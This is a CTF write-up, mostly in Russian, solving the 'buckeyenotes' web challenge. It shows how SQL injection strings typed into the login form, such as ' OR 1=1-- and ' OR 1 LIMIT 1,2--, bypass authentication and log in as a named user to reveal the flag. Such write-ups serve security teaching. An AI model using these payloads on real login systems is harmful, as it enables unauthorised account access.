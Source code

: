 # web / buckeyenotes
Author: rene  
URL: https://buckeyenotes.chall.pwnoh.io

### Task

> Note taking apps are all the rage lately but turns our they're harder to make than I thought :/. Even in development buckeyenotes has gotten some traction, Brutus signed up! I think his user name is brutusB3stNut9999. I wonder what kind of notes he writes 🤔 but I don't have his login....

Посетим страницу по [ссылке](https://buckeyenotes.chall.pwnoh.io)

![login-page-1](img/login-page-1.png)

Нам предложено авторизоваться на сайте.  
Попробуем рандомную пару логин / пароль

![login-page-2](img/login-page-2.png)

Сайт вернет ошибку  
Попробуем в поле пароля вставить ``` ' OR 1=1-- ```

![login-page-3](img/login-page-3.png)

Вернется ошибка 
> nice try, >:D I removed your equal signs

Попробуем в поле логина вставить ``` ' OR 1=1-- ```

![login-page-4](img/login-page-4.png)

Вернется
> Logged in as rene. Nothing posted yet :(

Тоже самое через Burp Suite

![login-page-5](img/login-page-5.png)

Далее подставим вместо rene значение, которое было в описании задания ``` 
brutusB3stNut9999 ```. Воспользуемся следующей последовательностью ``` brutusB3stNut9999' OR ' 
1=1-- ```

![login-page-6](img/login-page-6.png)

И нам вернется значение флага
``` Success! your flag is buckeye{wr1t3_ur_0wn_0p3n_2_pwn} ```

Аналогично можно использовать следующие параметры для решения задачи:  
Логин - ``` brutusB3stNut9999 ```  
Пароль - ``` ' OR 1 LIMIT 1,2-- ```

![login-page-7](img/login-page-7.png)
